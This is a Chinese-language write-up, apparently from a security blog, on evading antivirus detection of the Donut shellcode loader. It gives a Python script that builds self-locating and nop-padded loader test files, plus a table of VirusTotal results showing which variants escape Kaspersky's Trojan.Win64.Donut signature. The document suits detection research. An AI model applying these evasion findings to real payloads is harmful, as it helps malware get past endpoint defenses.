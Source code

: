 `Kaspersky`和`ZoneAlarm by Check Point`会报`HEUR:Trojan.Win64.Donut.b`

特征名称发生了变化，从`HEUR:Trojan.Win64.Donut.a`变成了`HEUR:Trojan.Win64.Donut.b`

## 新特征的免杀

### 分析新特征

根据前文的分析，编写样本生成脚本

```bash
import re
from io import BytesIO
from pathlib import Path


def get_loader():
    data = Path('loader_exe_x86.h').read_text('ascii')
    return bytes.fromhex("".join(re.findall(r'0x([0-9a-f]{2})', data)))


def build_loader(data: bytes, noeip=False):
    writer = BytesIO()
    if noeip:
        writer.write(b'\x90')  # nop
    else:
        writer.write(b'\xe8')  # call $+datalen
    writer.write(int.to_bytes(len(data), 4, 'big'))
    writer.write(data)
    if noeip:
        writer.write(b'\x90' * 4)
    else:
        writer.write(b'\x59')  # pop ecx
        writer.write(b'\x5a')  # pop edx
        writer.write(b'\x51')  # push ecx
        writer.write(b'\x52')  # push edx
    writer.write(get_loader())  # LOADER
    return writer.getvalue()


Path('test.bin').write_bytes(get_loader())
Path('test1.bin').write_bytes(build_loader(b'\x90'))
Path('test2.bin').write_bytes(build_loader(b'\x90', noeip=True))
Path('test3.bin').write_bytes(build_loader(b'\x90' * 100))
Path('test4.bin').write_bytes(build_loader(b'\x90' * 100, noeip=True))
Path('test5.bin').write_bytes(build_loader(b'\x90' * 1024 * 1024))
Path('test6.bin').write_bytes(build_loader(b'\x90' * 1024 * 1024, noeip=True))
```

测试结果如下：

| 文件名 | 是否被杀 | 说明  | 报告  |
| --- | --- | --- | --- |
| test.bin | 否   | LOADER | [报告](https://www.virustotal.com/gui/file/1cfa5ff012b9397c05d07a35fe163dad31f068a9bfd16ca30cc0aa23a8594c67) |
| test1.bin | 是   | 自定位+nop+LOADER | [报告](https://www.virustotal.com/gui/file/997a3bb6e12e95589856a9a08838aade2d71c0ce6a3791c3e133ef7e3bf11d2f) |
| test2.bin | 否   | nop+nop+LOADER | [报告](https://www.virustotal.com/gui/file/60935703f50188822ec4bd1be8f180f907e2a8d9029a9a497c840d505c76274a) |
| test3.bin | 是   | 自定位+nop\*100+LOADER | [报告](https://www.virustotal.com/gui/file/3b8daae89c40c882127fdb135f5dcb33a82a90e56e06f274c6925184cf19551a) |
| test4.bin | 否   | nop+nop\*100+LOADER | [报告](https://www.virustotal.com/gui/file/abd15a20251d4671d5a88e160539c0ce819bbbf9902c6e759342bbc311b8cf33) |
| test5.bin | 否   | nop+nop*1024*1024+LOADER | [报告](https://www.virustotal.com/gui/file/349601ed9e550a881b5fb77768661dc294309f6a54a9d197d5aa531ee7f7882d) |
| test6.bin | 否   | nop+nop*1024*1024+LOADER | [报告](https://www.virustotal.com/gui/file/af1747277fe91e4a40352358d59b5e6bc60e67870f42f091cfcb8304ca748e4f) |
